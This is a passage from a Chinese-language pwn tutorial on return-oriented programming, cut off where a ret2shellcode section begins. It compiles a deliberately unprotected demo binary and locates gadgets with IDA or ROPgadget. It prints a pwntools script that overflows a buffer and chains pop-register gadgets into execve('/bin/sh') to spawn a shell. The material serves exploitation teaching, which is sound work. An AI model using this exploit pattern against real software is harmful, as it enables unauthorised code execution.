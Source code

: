 ```bash
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

编译后我们用 ida 查找可执行汇编代码的地址（又称为 gadgets）以及 sh 字符串的地址，或者工具 ROPgadget

[![](assets/1705974052-2cb08ec1f818b58f33f8427d5b4b0413.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120221545-66f58456-b79e-1.png)

[![](assets/1705974052-b80dee3f960250e898658e21047b6171.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120221554-6c073de0-b79e-1.png)

随后在输入处构造 payload 即可

脚本：

```bash
from pwn import*

io = process('./text')
poprdi=0x4011b9
poprsi=0x4011c6
poprdx=0x4011d3
binsh=0x404038
execve=0x4011A5
payload = b'a'*(0x10+8)+p64(poprdi)+p64(binsh)+p64(poprsi)+p64(0)+p64(poprdx)+p64(0)+p64(execve)
io.sendline(payload)
io.interactive()
```

一些解释：

pop 指令是出栈，pop 后接寄存器即是将栈中的第一个 4/8 字节大小的数据从栈中放到对应寄存器中，payload 构造中可以在 pop 指令后接数据来控制对应寄存器的值

## 3.ret2shellcode

### shellcode？
